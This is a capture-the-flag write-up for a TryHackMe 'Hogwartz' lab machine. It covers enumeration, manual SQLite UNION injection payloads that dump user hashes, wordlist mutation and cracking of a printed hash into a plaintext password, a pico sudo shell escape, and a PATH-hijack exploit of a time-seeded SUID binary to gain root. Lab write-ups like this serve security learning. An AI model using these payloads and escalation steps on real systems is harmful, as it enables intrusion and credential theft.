


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|   Medium   |  |  10.10.153.32 |  |

---

### [ User1.txt ]

As always, let's start off with a full nmap scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.153.32
```

**Results:**

```
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:5f:48:fa:3d:3e:e6:9c:23:94:33:d1:8d:22:b4:7a (RSA)
| ssh-rsa 
[REDACTED]
|   256 53:75:a7:4a:a8:aa:46:66:6a:12:8c:cd:c2:6f:39:aa (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 7f:c2:2f:3d:64:d9:0a:50:74:60:36:03:98:00:75:98 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGnNa6K0GzjKiPdClth/sy8rhOd8KtkuagrRkr4tiATl
80/tcp  open  http        syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: Amazingly It works
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: HOGWARTZ-CASTLE; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 4 ports open: **22 (SSH)**, **80 (HTTP)** and **139 & 445 (Samba)**

Let's check out the Samba server first.

We'll use `smbclient`  with the `-L` option to list out all of the shares that we can potentially access:

```
smbclient -L 10.10.153.32
```


There is a share that looks interesting: **sambashare**

Let's connect to it:

```
smbclient //10.10.153.32/sambashare
```


There are 2 files in the server: **spellnames.txt** and **.notes.txt**

I downloaded these files onto my local machine and viewed their contents.

**Snippet of spellnames.txt:**


We have a wordlist of some sorts! Perhaps we'll have to use this later on if we need to brute-force any credentials.

**.notes.txt:**


This text file reveals 2 potential usernames:

> hagrid, hermonine

It also seems to contain some hints, although I'm still not too sure on what to do with them. Let's move on for now and explore the rest of the machine.

Now, let's take a look at the HTTP website:


We are brought to a default Apache2 page. 

The first thing I did was to check the source code of this page:


There is an interesting comment left at the top of the source code. It seems like we have a valid virtual host at `hogwartz-castle.thm`! Let's go ahead and add this domain to our /etc/hosts file:


Before moving on to visit this virtual host, let's run a Gobuster scan on the current page to enumerate any hidden directories:

```
gobuster dir -u http://10.10.153.32/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt -t 25
```


The results show an interesting directory called **/backup**.

However, it seems like we do not have the required permissions to visit it:


Regardless, we can still run another Gobuster scan on this directory to find other subdirectories:

```
gobuster dir -u http://10.10.153.32/backup/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html -t 25
```


This time, we find a subdirectory called **/email**.

The subdirectory contains a email thread between 'Madeye' and 'RME':

```
Madeye,

It is done. I registered the name you requested below but changed the "s" to a "z". You should be good to go.

RME

--------
On Tue, Nov 24, 2020 at 8:54 AM Madeye Moody <ctf@madeye.ninja> wrote:
Mr. Roar M. Echo,

Sounds great! Thanks, your mentorship is exactly what we need to avoid legal troubles with the Ministry of Magic.

Magically Yours,
madeye

--------
On Tue, Nov 24, 2020 at 8:53 AM Roar May Echo <info@roarmayecho.com> wrote:
Madeye,

I don't think we can do "hogwarts" due to copyright issues, but let’s go with "hogwartz", how does that sound?

Roar

--------
On Tue, Nov 24, 2020 at 8:52 AM Madeye Moody <ctf@madeye.ninja> wrote:
Dear Mr. Echo,

Thanks so much for helping me develop my castle for TryHackMe. I think it would be great to register the domain name of "hogwarts-castle.thm" for the box. I have been reading about virtual hosting in Apache and it's a great way to host multiple domains on the same server. The docs says that...

> The term Virtual Host refers to the practice of running more than one web site (such as 
> company1.example.com and company2.example.com) on a single machine. Virtual hosts can be 
> "IP-based", meaning that you have a different IP address for every web site, or "name-based", 
> meaning that you have multiple names running on each IP address. The fact that they are 
> running on the same physical server is not apparent to the end user.

You can read more here: https://httpd.apache.org/docs/2.4/vhosts/index.html

What do you think?

Thanks,
madeye
```

The only information I could glean from this thread was the use of the virtual host, which wasn't useful to us as we already know that from the source code earlier. Seems like that's all we can enumerate at this point, let's move on.

Alright, let's now visit `http://hogwartz-castle.thm`:


We're brought to a login page!

I first tried some common credentials like **admin:admin**, but those did not work. 

Next, I tried a basic SQL injection payload on the username field: `' or 1=1 --` 


It returned a JSON object which reveals another potential username:

> lucas washington

From here, I tried to run a dictionary attack on this login page using `hydra` with all of the information we have obtained so far. We have a bunch of potential usernames and a password / username wordlist (spellnames.txt). Of course, we also have our trusty rockyou.txt wordlist to fall back on. Unfortunately, after trying for hours, I was unable to enumerate any valid credentials.

Hitting this dead-end, I then tried using `sqlmap` to see if the login form is susceptible to greater SQLi payloads.

I intercepted the request made when logging in with Burpsuite, then saved the request to a file. Next, I ran the following command:

``` 
sqlmap -r request --level=5 --risk=3 --dump-all
```


sqlmap manages to identify 2 SQLi payloads that we can use. It also finds out that the database being used is: **SQLite**

However, it was unable to dump out the data in the database...


I tried running `sqlmap` a few more times but it didn't work.

---

*At this point, I decided to try my hand at manually carrying out the SQLi attack.*

*Admittedly, SQL injections have never been my forte and I've always relied on using tools like sqlmap to automate the process. I felt like this would be a great learning experience for me and an opportunity to improve my skills.*

*Portswigger does a fantastic job teaching about [SQLi](https://portswigger.net/web-security/sql-injection) and [SQL UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks).*

---

Alright, let's carry out some SQLi attacks manually!

Let's try to run a **SQL UNION** attack on the login form. More specifically, we'll target the 'user' parameter.

We first submit some dummy data and intercept the login request using Burpsuite. We then send the request to Burpsuite Repeater so that we can easily resend the request:


The first thing we have to do is to check the number of columns returned in the original query. This is because our payload needs to match the same number of columns in order for the UNION operator to work. Since we know the database is SQLite, we can submit the following payload:

```
test' UNION SELECT NULL--
```

Our submitted data looks like this:


Once submitted, we see that there is an internal server error:


This means that the original query returns more than 1 column. 

We repeat this process, incrementing the number of `NULL`s that we submit until we no longer get a server error:

```
test' UNION SELECT NULL--
test' UNION SELECT NULL,NULL--
test' UNION SELECT NULL,NULL,NULL--
...
```

When I submitted 4 `NULL`s:

```
test' UNION SELECT NULL,NULL,NULL,NULL--
```

We can see that we get back a valid response!



This means that we must have **4 columns** in our payload. 

Next, let's find out which column will be displayed on the HTTP webpage. We use the following payload to do so:

```
test' UNION SELECT 1,2,3,4--
```

We can see that the data from the **first** and **last** columns are displayed (1 & 4):


Hence, we'll be using those columns to inject our following SQL commands as their results will be returned on the webpage.

Now let's obtain the names of the tables in the database:

``` 
test' union select tbl_name,NULL,NULL,NULL from sqlite_master where type='table' and tbl_name NOT like 'sqlite_%'--
```

We get a table called **users**:


With the table name, we can obtain the names of the columns in this table:

```
test' UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='users'--
```

We find out that there are 4 columns: **name**, **password**, **admin** and **notes**


Finally, we can slowly extract all of the data within these columns. For SQLite databases, we can use the `GROUP_CONCAT` function to fit all of the rows of data into one row.

Let's start with the **name** column:

```
test' UNION SELECT GROUP_CONCAT(name),NULL,NULL,NULL FROM users--
```

We get a whole bunch of usernames:


Let's take down these names and move on to obtain the passwords from the **password** column:

```
test' UNION SELECT GROUP_CONCAT(password),NULL,NULL,NULL FROM users--
```

We get a lot of password hashes:



I saved all of these hashes into a text file and formatted them such that we get a nice wordlist (each hash is on a new line):

Using an online [hash identifier](https://www.tunnelsup.com/hash-analyzer/), we can tell that these are **SHA2-512** hashes:


We'll need to know this when we crack the hashes later on.

Finally, we move on to the **notes** table:

```
test' UNION SELECT GROUP_CONCAT(notes),NULL,NULL,NULL FROM users--
```

We get a bunch of the same text:


However, if we look closely, we can actually see the following message:

> My linux username is my first name, and password uses best64

Hmmmmm, it seems that one of the users that we enumerated can be used to log into the target machine.

If we look at the row that this special message belongs to, we see that it's actually in the second row of the table. If we look at the users that we enumerated, we see that **Harry Turner** is also in the second row:


Thus, we know which user to target! We also know that his first name is a potential username:

> harry

Finally, we need to crack harry's password. It's mentioned that his password uses **best64**.

(*From my research, I found out that best64 is actually a [rule file](https://github.com/hashcat/hashcat/blob/master/rules/best64.rule) that is available with `hashcat`)*

Remember the **spellnames.txt** wordlist that we obtained at the start? What if we have to use the best64 rule file to mutate this wordlist? This will then give us a password wordlist that we can use to crack harry's password!

Let's mutate spellnames.txt with `hashcat`.

---

*I had to run hashcat on Windows as it was not working on my Kali virtual machine.*

---

```
.\hashcat.exe --stdout -r .\rules\best64.rule 'C:\Users\Nicholas\Desktop\Kali\spellnames.txt' > 'C:\Users\Nicholas\Desktop\Kali\mutated_spellnames.txt'
```


With that, we obtain a mutated spellnames.txt wordlist.

Next, we extract the second row of the password hashes that we obtained as that belongs to harry. We'll get the following hash: 

```
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
```

Finally, we use `john` to crack this hash with the mutated spellnames.txt wordlist:

```
john --wordlist=mutated_spellnames.txt --format=raw-SHA512 new_hashes.txt
```


After a few seconds, `john` manages to crack harry's password:

> wingardiumleviosa123

I tried using these credentials to log into `hogwartz-castle.thm`:


No luck there...

Since the only other service running is **SSH**, let's try logging into that:


Nice, the credentials worked and we're in!

With that, we can obtain **user1.txt** from harry's home directory:


---

### [ User2.txt ]

Doing some manual enumeration, I discovered that there was another user called **hermonine**:


Unfortunately, we do not have access into her home directory.

Next, I checked harry's **sudo privileges**:


It seems that we can run `/usr/bin/pico` as hermonine.

---

*Doing some research online, I found out that `pico` is actually the predecessor to `nano`! It's a simple and lightweight text editor for UNIX and UNIX-based systems.*

---

If we take a look at [GTFOBins](https://gtfobins.github.io/gtfobins/pico/), we can find the following method to exploit `pico` to open a shell as hermonine:


First, we run `pico` as hermonine:

```
sudo -u hermonine pico
```


We'll get the error message above, but we can simply press Enter to ignore it.

Next, while in the text editor, we run:

```
^R^X
```

This opens a prompt that allows us to input shell commands:


With that, we run the following command:

```
reset; sh 1>&0 2>&0
```

This will open a shell as the user hermonine! 


The shell itself is embedded within the text editor, so it looks slightly messy. But hey, at least it works!

With that, we can navigate into hermonine's home directory and obtain **user2.txt**:


---

### [ Root.txt ]

Looking in hermonine's home, I noticed the **.ssh** directory:


While there weren't any SSH keys inside, I can simply add my own **public key** into a file called  **'authorized_key'** within .ssh. This then allows me to log into hermonine's account via SSH without needing her password:


Now that we're in, I went ahead and did some manual enumeration.

Let's see if there are any **SUID-bit** set files:

```
find / -type f -perm /u=s 2>/dev/null
```


Immediately, I noticed an interesting binary with its SUID-bit set: `/srv/time-turner/swagger`

I tried running this binary:


It prompts us to input a number. I inputted a random number and the program closes after telling us that our number is wrong.

To get a higher-level understanding of how the binary functions, I downloaded it onto my local machine using `scp`:

```
scp hermonine@10.10.153.32:/srv/time-turner/swagger .
```

Next, I ran it through [Binary Ninja](https://cloud.binary.ninja/), which will help us reverse-engineer the code. Once Binary Ninja has worked its magic, I took a look at the `main()` function:


Looks like the binary generates a random integer by using the **current time** as the seed value with `srand()`. It then compares if the user input is the same as this generated integer. 

If so, it will run the `impressive()` function:


When `impressive()` is called, it first sets the UID and GID to 0, effectively changing the current user to root. Thus, when the `uname` command is subsequently called, it will be run as root! What's important to note is that `uname` is called without using its full path. Hence, we can do some simple path manipulation later on to have `uname` run whatever we want.

To call the `impressive()` function, we first need to figure out a way to input the correct number in the beginning. 

Doing some research, I found out that a vulnerability with using current time as the seed value of `srand()`, is that the same number will be generated if we run the program multiple times within a short period.

To test this, we run `swagger` 5 times in quick succession:

```
for i in {1..5}; do echo 0 | /srv/time-turner/swagger; done
```


As we can see from the results, since the binary was run multiple times within a short period, the same number is indeed generated!

We can then use some simple regex to extract this generated number and pipe it back into the binary again:

```
./swagger | grep -oE '[0-9]+' | ./swagger
```

*(-oE allows for matching using regex. [0-9]+ matches any numbers from 0-9, and then merges them to form one result)*

The inputted number will then be correct, allowing us to pass the check and call the `impressive()` function.

Now we need to manipulate our PATH such that when the binary runs `uname`, it's actually running a malicious script that we created.

To do so, I first created a script called 'uname' in /tmp which reads out the root flag:

```
echo 'cat /root/root.txt' > /tmp/uname
```

I also made sure to make this script accessible by all:

```
chmod 777 /tmp/uname
```

Next, I added /tmp into the front of my PATH:

```
PATH=/tmp:$PATH
```


Finally, we run `swagger` with our command from earlier:

```
./swagger | grep -oE '[0-9]+' | ./swagger
```

With that, we successfully extract and input the correct number into `swagger`, causing `uname` to be run. However, since we manipulated our PATH and placed /tmp at the front, the machine will look into /tmp first and run our created `uname` script instead! 

**root.txt** is then read out :smile:


